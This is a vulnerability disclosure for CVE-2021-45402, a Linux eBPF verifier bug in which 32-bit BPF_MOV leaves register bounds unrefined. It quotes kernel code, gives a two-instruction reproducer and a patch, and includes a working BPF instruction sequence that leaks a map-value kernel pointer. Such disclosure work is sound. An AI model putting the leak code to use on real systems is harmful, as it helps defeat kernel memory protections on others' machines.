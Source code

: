 ```yaml
---
layout: post
title: "[CVE-2021-45402] eBPF verifier bug: Forgot to update reg bounds after calling zext_32_to_64"
tag: bulletin
---
```


````
-- [ Description

Most of the time it is needed to call zext_32_to_64() when verifying
32b BPF_ALU instructions. It will finally call
__reg_assign_32_into_64() to update 64b bounds using 32b bounds (1).

```
/* BPF architecture zero extends alu32 ops into 64-bit registesr */
static void zext_32_to_64(struct bpf_reg_state *reg)
{
    reg->var_off = tnum_subreg(reg->var_off);
    __reg_assign_32_into_64(reg);    <---- (1)
}
```

When both s32_min_value and s32_max_value are positive,
__reg_assign_32_into_64() directly pulls the 32-bit signed bounds into
the 64-bit bounds, otherwise it sets the 64-bit bounds to worse case
bounds. It says that the 64-bit bounds will be refined later from tnum
(2). But it actually forgot to do so in some cases, see below.

```
static void __reg_assign_32_into_64(struct bpf_reg_state *reg)
{
    reg->umin_value = reg->u32_min_value;
    reg->umax_value = reg->u32_max_value;
    /* Attempt to pull 32-bit signed bounds into 64-bit bounds
     * but must be positive otherwise set to worse case bounds
     * and refine later from tnum.    <---- (2)
     */
    if (reg->s32_min_value >= 0 && reg->s32_max_value >= 0)
        reg->smax_value = reg->s32_max_value;
    else
        reg->smax_value = U32_MAX;
    if (reg->s32_min_value >= 0)
        reg->smin_value = reg->s32_min_value;
    else
        reg->smin_value = 0;
}
```

The verification of most BPF_ALU instructions will finally execute
into adjust_scalar_min_max_vals() from check_alu_op(), at the end of
this function, it will call zext_32_to_64() when the instruction is a
32-bit ALU operation, and update the bounds immediately afterwards,
things seem to be going well but with one exception.

```
static int adjust_scalar_min_max_vals(struct bpf_verifier_env *env,
                      struct bpf_insn *insn,
                      struct bpf_reg_state *dst_reg,
                      struct bpf_reg_state src_reg)
{
    ...
    /* ALU32 ops are zero extended into 64-bit register */
    if (alu32)
        zext_32_to_64(dst_reg);

    __update_reg_bounds(dst_reg);
    __reg_deduce_bounds(dst_reg);
    __reg_bound_offset(dst_reg);
    return 0;
}
```

Instruction class BPF_MOV, perhaps due to it not requiring complicated
bounds adjustments, will not call the adjust_scalar_min_max_vals(),
and when it is a 32-bit ALU operation, zext_32_to_64() is also called.
But in this case, it seems to forget to update the bounds with tnum as
commented in __reg_assign_32_into_64().

```
static int check_alu_op(struct bpf_verifier_env *env, struct bpf_insn *insn)
{
    ...
    if (opcode == BPF_END || opcode == BPF_NEG) {
        ...
    } else if (opcode == BPF_MOV) {
        ...
        if (BPF_SRC(insn->code) == BPF_X) {
            ...
            if (BPF_CLASS(insn->code) == BPF_ALU64) {
                ...
            } else {
                ...
                zext_32_to_64(dst_reg);    <---- (3)
            }
        }
    } else if (opcode > BPF_END) {
        ...
    } else {    /* all other ALU ops: and, sub, xor, add, ... */
        ...
        return adjust_reg_min_max_vals(env, insn);
    }
    return 0;
}
```

When the source operand is a const scalar, dst_reg will be a const
scalar with smax_value not equal to smin_value. This breaks some
internal assumptions of the verifier, and at least can be used to leak
the pointer of MAP_VALUE.

-- [ Affected Versions

Latest version (v5.16-rc3) of Linux.

-- [ Reproducer

To trigger this bug just need two instructions:

```
BPF_MOV32_IMM(BPF_REG_0, 0xFFFFFFFF)
BPF_MOV32_REG(BPF_REG_0, BPF_REG_0)
```

-- [ Mitigation

Perhaps the easiest way is to copy the codes that update the bounds
from adjust_scalar_min_max_vals().

```
diff --git a/kernel/bpf/verifier.c b/kernel/bpf/verifier.c
index e76b55917905..2d1105ca7c59 100644
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -8098,6 +8098,9 @@ static int check_alu_op(struct bpf_verifier_env
*env, struct bpf_insn *insn)
                                                         insn->dst_reg);
                                }
                                zext_32_to_64(dst_reg);
+                               __update_reg_bounds(dst_reg);
+                               __reg_deduce_bounds(dst_reg);
+                               __reg_bound_offset(dst_reg);
                        }
                } else {
                        /* case: R = imm
```

-- [ Exploitability

off_reg is checked at the beginning of adjust_ptr_min_max_vals(), if
off_reg is the previously described register that had triggered the
bug, dst_reg (i.e, ptr_reg) will be marked as unknown, while dst_reg
contains a pointer to MAP_VALUE, and this branch is not a dead branch.

```
static int adjust_ptr_min_max_vals(struct bpf_verifier_env *env,
                   struct bpf_insn *insn,
                   const struct bpf_reg_state *ptr_reg,
                   const struct bpf_reg_state *off_reg)
{
    ...
    bool known = tnum_is_const(off_reg->var_off);
    s64 smin_val = off_reg->smin_value, smax_val = off_reg->smax_value,
        smin_ptr = ptr_reg->smin_value, smax_ptr = ptr_reg->smax_value;
    u64 umin_val = off_reg->umin_value, umax_val = off_reg->umax_value,
        umin_ptr = ptr_reg->umin_value, umax_ptr = ptr_reg->umax_value;
    if ((known && (smin_val != smax_val || umin_val != umax_val)) ||
        smin_val > smax_val || umin_val > umax_val) {
        /* Taint dst register if offset had invalid bounds derived from
         * e.g. dead branches.
         */
        __mark_reg_unknown(env, dst_reg);
        return 0;
    }
    ...
}
```

So we can leak pointer by the following instructions:

```
struct bpf_insn insn[] =
{
    // load store_map values ptr into reg_0
    BPF_MOV64_IMM(BPF_REG_0, 0), \
    BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4), \
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10), \
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4), \
    BPF_LD_MAP_FD(BPF_REG_1, STORE_MAP_FD), \
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem), \
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1), \
    BPF_EXIT_INSN(), \
    BPF_MOV64_REG(STORE_MAP_REG, BPF_REG_0), \
    BPF_MOV64_REG(CORRUPT_MAP_REG, BPF_REG_0), \
    BPF_MOV32_IMM(BPF_REG_0, 0),
    // trigger the bug
    BPF_MOV32_IMM(EXPLOIT_REG, 0xFFFFFFFF), \
    BPF_MOV32_REG(EXPLOIT_REG, EXPLOIT_REG), \
    // mark CORRUPT_MAP_REG as unknown
    BPF_ALU64_REG(BPF_SUB, CORRUPT_MAP_REG, EXPLOIT_REG), \
    // store the leaked BPF ptr into store map
    BPF_STX_MEM(BPF_DW, STORE_MAP_REG, CORRUPT_MAP_REG, 8), \
    BPF_EXIT_INSN()
};
```

I have spent some time thinking about whether this vulnerability can
be used to achieve LPE, but got nothing. But I think the eBPF
subsystem is very special in exploitability, and full of
possibilities.

-- [ References

* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=3cf2b61eb06765e27fec6799292d9fb46d0b7e60
* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=e572ff80f05c33cd0cb4860f864f5c9c044280b6
* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=b1a7288dedc6caf9023f2676b4f5ed34cf0d4029

````